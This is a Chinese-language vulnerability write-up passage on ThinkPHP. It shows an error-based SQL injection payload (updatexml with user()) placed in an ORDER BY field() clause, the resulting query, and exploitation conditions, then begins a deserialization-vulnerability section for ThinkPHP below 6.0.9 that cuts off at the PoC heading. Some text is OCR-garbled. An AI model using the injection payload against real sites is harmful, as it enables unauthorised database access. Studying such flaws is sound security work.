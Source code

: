ORDER BY field(id,111)|updatexml(1,concat(0x3a,user()),1)#,:data**id,111)|updatexml (1,concat (0x3a,user ()),1)#0) 一直调试到后面可以看到 sql 语句：SELECT \* FROM user WHERE id IN (:where\_AND\_id\_in\_1,:where\_AND\_id\_in\_2) ORDER BY field (id,111)|updatexml (1,concat (0x3a,user ()),1)#,:data**id,111)|updatexml(1,concat(0x3a,user()),1)#0) LIMIT 1

[![](assets/1710900891-099fb4024496a9a9718cb2034452a77e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240304110227-a1d4aa96-d9d3-1.png)

这里由于 field 函数，漏洞利用有两个关键点：

1.  field () 函数必须指定大于等于两个字段才可以正常运行，否则就会报错，当表中只有一个字段时，我们可以随意指定一个数字或字符串的参数
2.  当 field 中的参数不是字符串或数字时，指定的参数必须是正确的表字段，否则程序就会报错。这里由于程序会在第一个字段中加 限制，所以必须指定正确的字段名称。第二个字段没有限制，可以指定字符串或数字

## 简介

ThinkPHP v6.0.8 通过组件 vendor\\league\\flysystem-cached-adapter\\src\\Storage\\Adapter.php 发现一个反序列化漏洞。

### 范围：

thinkphp<6.0.9

### 环境

这里装 tp6.0.8  
composer create-project topthink/think=6.0.x tp6.0.8  
老规矩删 lock 文件改 comoser.json 重新 composer install 一遍

### 调试

很简单的链子。应该是最短的了 Poc:
